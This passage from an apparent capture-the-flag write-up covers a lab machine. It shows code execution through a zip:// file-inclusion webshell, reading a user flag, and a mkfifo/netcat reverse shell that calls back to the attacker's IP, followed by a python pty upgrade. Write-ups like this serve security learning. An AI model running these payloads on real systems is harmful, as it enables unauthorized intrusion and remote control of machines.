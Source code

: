 Two things to note here:
1. It’s important to use the `-F` (`–form) option here for the data.
2. Most references to using curl to upload files show using the `@` symbol in front of the filename. That doesn’t work in this case, because the site is expecting raw text. The curl man page explains why we’ll use the `<` character:
   > To force the ‘content’ part to be a file, prefix the file name with an @ sign. To just get the content part from a file, prefix the file name with the symbol <. The difference between @ and < is then that @ makes a file get attached in the post as a file upload, while the < makes a text field and just get the contents for that text field from a file.

The source showed that the uploads are stored in `/uploads/[ip]/`, and checking out the link for this file offers a binary file, which is a good sign. Now, using the zip filter, we have code exec by visiting `http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=id` and seeing:

```

uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### user.txt

With the webshell, we can get user.txt:

| url | result |
| --- | --- |
| http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home | dom |
| http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home/dom | user.txt |
| http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=cat%20/home/dom/user.txt | 28a3c49d… |

## Interactive Shell

With the webshell, check for `nc -e`, but neither `nc` nor `nc.openbsd` have the option. So, use a `fifo pipe`. Visit `http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=rm%20/tmp/d;%20mkfifo%20/tmp/d;%20cat%20/tmp/d%20|%20/bin/sh%20-i%202%3E%261|nc%2010.10.14.139%208081%20%3E%20/tmp/d`, and catch callback:

```

root@kali# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 50870
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$

```
